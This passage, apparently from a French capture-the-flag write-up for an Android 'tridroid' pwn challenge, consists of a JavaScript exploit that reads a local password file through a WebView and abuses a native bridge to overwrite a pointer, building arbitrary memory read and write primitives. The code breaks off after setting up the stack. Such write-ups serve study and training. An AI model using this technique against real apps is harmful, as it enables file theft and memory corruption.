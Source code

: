 ### Obtenir le vrai flag

L'exploit complet est donné ci-dessous :

```javascript
<span id="exp">
    const pwd = "/data/data/com.google.ctf.pwn.tridroid/files/password.txt";

    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", "file://"+pwd, false); // false for synchronous request
    xmlHttp.send();
    password = xmlHttp.responseText;
    console.log("password : "+password);

    function push(data) {
        // interface bridge
        return bridge.manageStack(password, "push", data);
    }

    function pop() {
        // interface bridge
        return bridge.manageStack(password, "pop", '');
    }

    function top() {
        // interface bridge
        return bridge.manageStack(password, "top", '');
    }

    function modify(data) {
        // interface bridge
        return bridge.manageStack(password, "modify", data);
    }

    function unpack64(data) {
        return parseInt(data.match(/../g).reverse().join(''), 16);
    }

    function pack64(data) {
        return data.toString(16).match(/../g).reverse().join('').padEnd(16, '0');
    }

    function read(addr) {
        // push something because we pop after
        push("41")
        // 16*"41" + pointer overwrite
        modify("41414141414141414141414141414141"+pack64(addr));
        pop();
        return top();
    }

    function write(addr, data) {
        // push something because we pop after
        push("41")
        // 16*"41" + pointer overwrite
        modify("41414141414141414141414141414141"+pack64(addr));
        pop();
        modify(data)
    }

    // initialize the stack top
    push("41414141")
    push("41414141")
    push("41414141")
```